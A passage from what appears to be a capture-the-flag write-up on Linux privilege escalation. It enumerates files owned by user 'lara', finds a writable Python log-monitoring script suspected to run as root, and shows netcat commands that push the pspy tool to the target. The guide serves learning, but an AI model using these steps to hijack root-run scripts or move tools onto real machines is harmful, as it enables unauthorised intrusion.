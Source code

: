 Just using `su` to become the `lara` user, and it works! Unfortunately the `sudo` tricks doesn't work this time:
```
lara@ip-10-0-0-91:~$ sudo -l
[sudo] password for lara: 
Sorry, user lara may not run sudo on ip-10-0-0-91.
```

Using `find` to check if there's any interesting files owned by `lara` (except `/proc/` files):
```
lara@ip-10-0-0-91:/opt$ find / -user lara -ls 2>/dev/null |grep -v "/proc/"
        4      4 -rw-r--r--   1 lara     lara           58 Nov  7 09:41 /dev/shm/myh/password.txt
   288393      4 drwxr-x---   2 lara     lara         4096 Oct 28 10:55 /home/lara
   288394      4 -rw-r--r--   1 lara     lara          807 Jan  6  2022 /home/lara/.profile
   288377      4 -rw-r--r--   1 lara     lara           58 Oct 28 10:55 /home/lara/password.txt
   288395      4 -rw-r--r--   1 lara     lara          220 Jan  6  2022 /home/lara/.bash_logout
   288396      4 -rw-r--r--   1 lara     lara         3771 Jan  6  2022 /home/lara/.bashrc
      570      4 -rw-r--r--   1 lara     lara          516 Oct 28 10:55 /opt/nextGenMon.py
```

### cronjob, pspy and root
Hm, what is this `/opt/nextGenMon.py` thing?
```python
lara@ip-10-0-0-91:/opt$ cat /opt/nextGenMon.py 
import os

evil_IPs = ["84.17.60.99","84.17.60.90","84.17.60.69","84.17.58.6","84.17.58.16","84.17.58.10","84.17.52.25","84.17.52.24","84.17.48.74"]
logdir = "/var/log/apache2/"
files = os.listdir(logdir)

for file in files:
    data = open(f"{logdir}{file}").read().splitlines()
    for logline in data:
        for ip in evil_IPs:
            if ip in logline:
                print("THREAT ACTOR DETECTED")
                f = open("/home/lara/ALARM.txt", "a")
                f.write(f"{ip} detected in {file}")
```

We do have write permissions to the file. Perhaps this is something being run by `root`? Using `pspy`[3]  to check for running processes. To get the file to the remote server, you could the the following:

On remote server:
```bash
nc -lvnp 1337 > pspy
```

And then locally:
```bash
cat pspy | nc 54.194.16.253 1337
```
